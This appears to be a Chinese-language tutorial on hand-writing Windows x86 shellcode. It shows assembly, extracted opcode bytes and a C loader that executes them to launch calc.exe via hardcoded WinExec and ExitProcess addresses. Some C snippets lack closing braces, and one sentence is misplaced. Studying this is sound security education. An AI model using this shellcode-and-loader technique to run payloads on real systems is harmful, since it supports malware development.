\newpage
\subsection{Windows shellcode 编写（第 1 部分）：简单示例}

﷽

{width="80%"}

在之前关于 shellcoding 的几节中，我们用的是 Linux 的例子。在本节中，我的目标是为 Windows 机器编写 shellcode。

### 测试 shellcode

在测试 shellcode 时，最好直接把它塞进一个程序里让它运行。我们将使用与第一篇帖子相同的代码（`run.c`）：

```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "my shellcode here";

int main(int argc, char **argv) {
  int (*func)();  // function pointer
  func = (int (*)()) code;  // func points to our shellcode
  (int)(*func)();  // execute a function code[]
  // if our program returned 0 instead of 1, 
  // so our shellcode worked
  return 1;

```

### 第一个例子：运行 calc.exe

首先，我们用 C 写出类似 shellcode 原型的东西。为了简单起见，让我们写下面这段源代码（`exit.c`）：

```cpp
/*
exit.c - run calc.exe and exit
*/
#include <windows.h>

int main(void) {
  WinExec("calc.exe", 0);
  ExitProcess(0);

```

如你所见，这个程序的逻辑很简单：启动计算器（`calc.exe`）然后退出。让我们确认代码确实能工作。编译：

```bash
i686-w64-mingw32-gcc -o exit.exe exit.c -mconsole -lkernel32
```

{width="80%"}

然后在 Windows 机器上运行（我这里是 Windows 7 x86 SP1）：

```cmd
.\exit.exe
```

{width="80%"}

所以一切都运行得很完美。

现在我们试着用汇编语言来写这个逻辑。Windows 内核与 Linux 内核完全不同。在我们程序的最开始，我们有 `#include <windows.h>`，这反过来意味着 Windows 库会被包含进代码，并且默认会动态链接依赖项。然而，用 ASM 我们做不到同样的事。在 ASM 的情况下，我们需要找到 `WinExec` 函数的位置，把实参加载到栈上，然后调用那个持有函数指针的寄存器。`ExitProcess` 函数也一样。需要知道的是，大多数 Windows 函数都可以从三个主要库中获得：`ntdll.dll`、`Kernel32.DLL` 和 `KernelBase.dll`。如果你在调试器（我这里是 x32dbg）里运行我们的例子，你就能确认这一点：

{width="80%"}

### 查找函数地址

所以，我们需要知道 `WinExec` 在内存中的地址。我们会找到它的！

```cpp
/*
getaddr.c - get addresses of functions 
(ExitProcess, WinExec) in memory
*/
#include <windows.h>
#include <stdio.h>

int main() {
  unsigned long Kernel32Addr;  // kernel32.dll address
  unsigned long ExitProcessAddr;  // ExitProcess address
  unsigned long WinExecAddr;  // WinExec address

  Kernel32Addr = GetModuleHandle("kernel32.dll");
  printf("KERNEL32 address in memory: 0x%08p\n", Kernel32Addr);

  ExitProcessAddr = GetProcAddress(Kernel32Addr, "ExitProcess");
  printf("ExitProcess address in memory is: 0x%08p\n", ExitProcessAddr);

  WinExecAddr = GetProcAddress(Kernel32Addr, "WinExec");
  printf("WinExec address in memory is: 0x%08p\n", WinExecAddr);

  getchar();
  return 0;

```

这个程序会告诉你内核地址以及 `kernel32.dll` 中 `WinExec` 的地址。我们来编译它：

```bash
i686-w64-mingw32-gcc -O2 getaddr.c -o getaddr.exe \
-mconsole -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wall \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc >/dev/null 2>&1
```

{width="80%"}

并在我们的目标机器上运行：

```cmd
.\getaddr.exe
```

{width="80%"}

现在我们知道函数的地址了。注意我们的程序正确地找到了 kernel32 的地址。

### 汇编时间

`kernel32.dll` 中的 `WinExec()` 函数可以用来启动运行该进程的用户所能访问的任何程序：

```cpp
UINT WinExec(LPCSTR lpCmdLine, UINT uCmdShow);
```

在我们的例子中，`lpCmdLine` 等于 `calc.exe`，`uCmdShow` 等于 1（`SW_NORMAL`）。

```python
# convert string to reversed hex
import sys

input = sys.argv[1]
chunks = [input[i:i+4] for i in range(0, len(input), 4)]
for chunk in chunks[::-1]:
  print (chunk[::-1].encode("utf-8").hex())
```

{width="80%"}

然后，创建我们的汇编代码：

```nasm
xor  ecx, ecx  ; zero out ecx
push ecx  ; string terminator 0x00 for 
  ; "calc.exe" string
push 0x6578652e  ; exe. : 6578652e
push 0x636c6163  ; clac : 636c6163

mov  eax, esp  ; save pointer to "calc.exe" 
  ; string in ebx

; UINT WinExec([in] LPCSTR lpCmdLine, [in] UINT uCmdShow);
inc  ecx  ; uCmdShow = 1
push ecx  ; uCmdShow *ptr to stack in 
  ; 2nd position - LIFO
push eax  ; lpcmdLine *ptr to stack in 
  ; 1st position
mov  ebx, 0x76f0e5fd  ; call WinExec() function 
  ; addr in kernel32.dll
call ebx
```

要把某个东西放进小端（Little Endian）格式，只需把字节的十六进制反过来写。

那么，`ExitProcess` 函数呢？

```cpp
void ExitProcess(UINT uExitCode);
```

它用于在使用 `WinExec` 函数启动 `calc.exe` 进程之后，优雅地关闭宿主进程：

```nasm
; void ExitProcess([in] UINT uExitCode);
xor  eax, eax  ; zero out eax
push eax  ; push NULL
mov  eax, 0x76ed214f  ; call ExitProcess 
  ; function addr in kernel32.dll
jmp  eax  ; execute the ExitProcess function
```

所以，最终的代码是：

```nasm
; run calc.exe and normal exit
; author @cocomelonc
; nasm -f elf32 -o example1.o example1.asm
; ld -m elf_i386 -o example1 example1.o
; 32-bit linux (work in windows as shellcode)

section .data

section .bss

section .text
  global _start  ; must be declared for linker

_start:
  xor  ecx, ecx  ; zero out ecx
  push ecx  ; string terminator 0x00 
  ; for "calc.exe" string
  push 0x6578652e  ; exe. : 6578652e
  push 0x636c6163  ; clac : 636c6163

  mov  eax, esp  ; save pointer to "calc.exe" 
  ; string in ebx

  ; UINT WinExec([in] LPCSTR lpCmdLine, [in] UINT  uCmdShow);
  inc  ecx  ; uCmdShow = 1
  push ecx  ; uCmdShow *ptr to stack in 
  ; 2nd position - LIFO
  push eax  ; lpcmdLine *ptr to stack in 
  ; 1st position
  mov  ebx, 0x76f0e5fd  ; call WinExec() function 
  ; addr in kernel32.dll
  call ebx

  ; void ExitProcess([in] UINT uExitCode);
  xor  eax, eax  ; zero out eax
  push eax  ; push NULL
  mov  eax, 0x76ed214f  ; call ExitProcess function 
  ; addr in kernel32.dll
  jmp  eax  ; execute the ExitProcess function
```

编译：

```bash
nasm -f elf32 -o example1.o example1.asm
ld -m elf_i386 -o example1 example1.o
objdump -M intel -d example1
```

{width="80%"}

然后，让我们再次通过 bash 技巧和 `objdump` 提取字节码：

```bash
objdump -M intel -d example1 | grep '[0-9a-f]:'|grep -v 
'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|
sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|
sed 's/$/"/g'
```

{width="80%"}

所以，我们的字节码是：

```bash
"\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x63\x61\x6c
\x63\x89\xe0\x41\x51\x50\xbb\xfd\xe5\xf0\x76\xff
\xd3\x31\xc0\x50\xb8\x4f\x21\xed\x76\xff\xe0"
```

把它编译成 Linux 32 位的 ELF 文件，因为我们只是用 nasm 来替我们翻译操作码。

然后，把顶部的代码（`run.c`）替换为：

```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x63\x61"
"\x6c\x63\x89\xe0\x41\x51\x50\xbb\xfd\xe5\xf0"
"\x76\xff\xd3\x31\xc0\x50\xb8\x4f\x21\xed\x76"
"\xff\xe0";

int main(int argc, char **argv) {
  int (*func)();  // function pointer
  func = (int (*)()) code;  // func points to our shellcode
  (int)(*func)();  // execute a function code[]
  // if our program returned 0 instead of 1,
  // so our shellcode worked
  return 1;

```

编译：

```bash
i686-w64-mingw32-gcc run.c -o run.exe
```

{width="80%"}

并运行：

```cmd
.\run.exe
```

{width="80%"}

即使宿主进程死掉，`calc.exe` 进程仍会运行，因为它是一个独立的进程。

所以我们的 shellcode 完美工作了 :)

这就是你如何为 Windows 编写自己的 shellcode，例如。

但是，有一个注意事项。这段 shellcode 只能在这台机器上工作。因为所有 DLL 及其函数的地址在重启后会改变，而且在每个系统上都不一样。为了让它能在任何 Windows 7 x86 SP1 上工作，ASM 需要自己找到函数的地址。我将在下一部分做这件事。

首先通过 Python 脚本（`conv.py`）把 `calc.exe` 转成十六进制：

### 参考资料
